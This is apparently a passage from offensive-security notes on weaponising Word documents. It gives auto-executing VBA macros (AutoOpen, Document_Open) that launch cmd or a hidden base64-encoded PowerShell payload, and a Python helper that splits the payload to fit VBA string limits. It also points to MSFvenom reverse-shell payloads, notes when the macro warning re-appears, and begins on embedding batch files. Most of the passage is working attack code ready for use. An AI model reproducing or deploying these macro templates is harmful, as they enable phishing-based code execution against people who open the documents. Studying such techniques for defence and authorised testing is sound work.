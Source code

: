             ```VBA
            Sub AutoOpen()
            	MyMacro
            End Sub
            
            Sub Document_Open()
            	MyMacro
            End Sub
            
            Sub MyMacro()
            	CreateObject("Wscript.Shell").Run "cmd"
            End Sub
            ```
            
    - Save the document as `.docm` (Word Macro-Enabled Document) or older `.doc` (Word 97-2003 Document) and **NOT** as `.docx` format
    
    💡 We can use the base64-encoded PowerShell payload of `MSFvenom` when generating a malicious HTA application (for a reverse shell for instance) [Link](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#msfvenom)
    
    ⚠️ VBA has a 255-character limit for literal strings
    
    💡 Split the PowerShell command into multiple lines via a Python script:
    
    ```python
    str = "powershell.exe -nop -w hidden -e <BASE64_PAYLOAD>"
    n = 50
    print(f'Str = "{str[:50]}"')
    for i in range(50, len(str), n):
        print(f'Str = Str + "{str[i:i+n]}"')
    ```
    
    ```VBA
    Sub AutoOpen()
    	MyMacro
    End Sub
    
    Sub Document_Open()
    	MyMacro
    End Sub
    
    Sub MyMacro()
        Dim Str As String
    
        Str = "powershell.exe -nop -w hidden -e <SPLITTED_BASE64_PAYLOAD>"
        Str = Str + "<SPLITTED_BASE64_PAYLOAD>"
    		...
        CreateObject("Wscript.Shell").Run Str
    End Sub
    ```
    
    > **Note**: the macro security warning only re-appears if the name of the document is changed

- Embedding/Linking Object using Batch file:
    - Word or Excel:
        - *Insert > Object > Create from File*
        - Import a Batch File
            